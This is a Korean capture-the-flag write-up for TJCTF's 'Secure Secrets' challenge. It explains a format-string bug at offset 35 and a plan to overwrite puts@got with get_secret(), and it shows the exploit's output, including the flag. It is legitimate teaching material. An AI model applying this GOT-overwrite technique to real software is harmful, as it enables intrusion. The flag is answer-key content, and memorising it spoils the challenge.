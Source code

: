 `#FSB`
# Secure Secrets
110 points Binary Exploitation - Unsolved (105 solves)
Written by evanyeyeye

> I am responsible for architecting the most recent paradigm in our modern technological revolution: Secure Secrets. Why don't you [try](https://static.tjctf.org/521f71839cd9dfb7cc608497cef567f4942b849a017e28bb2e069fecfbab17fc_secure) it out?
> 
> nc problem1.tjctf.org 8008

```
345a9d40be02e662466031e5768fdd27  secure
```

## FSB
```
.text:080488EC                 push    [ebp+var_2C]    ; format
.text:080488EF                 call    _printf

  printf(a1);
```

```
> AAAA%35$p
AAAA0x41414141
```
포맷스트링 버그가 존재하고 offset 35.  


## 시나리오
포맷스트링 버그로 `puts@got` 를  
`get_secret()`으로 덮어씌웁니다.  

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
```
  printf(a1);
  printf("\n");
  puts("Tada! Hope you liked our service!");
```
`puts@got`를 선정한 이유는  
포맷스트링 버그 발생한 후에 puts 함수가 쓰였기 때문에  
변조된 puts@got 를 반드시 불러올 것입니다.  

```
int get_secret()
{
  FILE *v1; // [sp+8h] [bp-50h]@1
  char v2; // [sp+Ch] [bp-4Ch]@3
  int v3; // [sp+4Ch] [bp-Ch]@1

  v3 = *MK_FP(__GS__, 20);
  v1 = fopen("flag.txt", "r");
  if ( v1 )
  {
    __isoc99_fscanf(v1, "%s", &v2);
    printf("Here is your secret: %s\n", &v2);
  }
  else
  {
    puts("Secret could not be accessed.");
  }
  return *MK_FP(__GS__, 20) ^ v3;
}
```
`get_secret()` 함수는 `flag.txt` 를 읽어주는 함수입니다.  

```
# python solve.py
[+] Opening connection to problem1.tjctf.org on port 8008: Done
[+] Receiving all data: Done (327B)
[*] Closed connection to problem1.tjctf.org port 8008

(\xa0\x0)\xa0\x0*\xa0\x0+\xa0\x0  L                                                                                                                                                                                                                                               \x87   h

Here is your secret: tjctf{n1c3_j0b_y0u_r34lly_GOT_m3_600d}

```
